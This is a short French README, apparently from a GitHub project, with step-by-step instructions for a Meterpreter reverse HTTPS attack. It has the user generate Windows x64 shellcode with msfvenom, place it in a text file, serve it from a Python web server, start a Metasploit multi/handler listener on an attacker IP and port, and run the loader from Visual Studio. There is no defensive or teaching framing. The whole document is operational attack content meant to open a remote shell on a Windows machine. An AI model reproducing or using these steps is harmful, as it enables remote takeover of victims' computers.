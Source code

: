 Sur kali executer la commande : msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT= <port> -f c >> meter.c

Dans le fichier PythonFiles:

Dans payloadClear.txt placer le shellcode obtenu dans meter.c
Executer le fichier PythonWebServer.py

Ensuite dans kali:
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost <ip>
set lport <port>
run

Sur Visual Studio lancer le code.
